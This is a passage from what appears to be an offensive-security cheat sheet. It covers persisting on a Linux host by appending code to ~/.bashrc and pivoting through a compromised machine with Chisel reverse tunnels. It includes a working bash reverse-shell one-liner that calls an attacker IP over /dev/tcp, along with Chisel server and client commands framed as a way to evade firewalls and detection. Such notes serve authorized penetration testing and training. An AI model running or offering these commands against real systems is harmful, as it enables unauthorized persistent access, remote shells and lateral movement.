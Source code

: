 Add malicious code to `~/.bashrc`:

```
1. Open .bashrc in a text editor
    nano ~/.bashrc

2. Add your malicious code into the file

3. Save the file

4. Wait for the code to execute when the user logs in

Example:
    Malicious code: 'bash -i >& /dev/tcp/10.0.0.21/4444 0>&1'
    This would open a reverse shell back to the attackers machine.
```

## Pivoting with Chisel
Chisel is a fast and easy-to-use tool for TCP and UDP tunneling and pivoting from
a compromsied host to other hosts or open ports within the network. It can be particularly
useful for when there are firewall rules in place preventing you from accessing specific 
hosts or ports from outside of the network, or preventing internal hosts from reaching out 
of the network back to the attacker machine.

Chisel supports tunneling over HTTP and HTTPS which can be useful for evading detection 
and circumventing network restrictions. It also supports reverse and bind tunneling. 
Reverse tunneling is when the client connects back to the attacker machine, and bind 
tunneling is when the attacker connects to an exposed port on the client machine. There 
are also precompiled binaries for Linux, OpenBSD, and Windows hosts allowing you to simply
transfer the binary over and start tunneling quickly.

### Chisel Reverse Tunneling
```
1. On the attacker machine, run the below command to setup a chisel server in reverse mode:
    ./chisel server -p <port_to_listen_on> --reverse

2. Download/upload the chisel binary onto the compromised machine

3. On the compromised machine, run the below command to connect back to the attacker
   machine and point connections to a specific IP and port:
    ./chisel client <listener_IP>:<listener_port> R:<local_tunnel_port>:<target_IP>:<target_port>

4. On the attacker machine you can now interact with the target port by accessing 
   localhost on the port opened on the attacker machine

Example commands:
    For this example, the attacker IP is 10.0.0.21
    and the compromised machine's IP is 10.0.0.42.

    1. (Attacker machine)
        ./chisel server -p 9000 --reverse

    2. (Compromised host)
        ./chisel client 10.0.0.21:9000 R:9001:127.0.0.1:80
    
    3. (Attacker machine)
        Interact with port 80 on the compromised machine by accessing localhost:9001
        in a browser
```
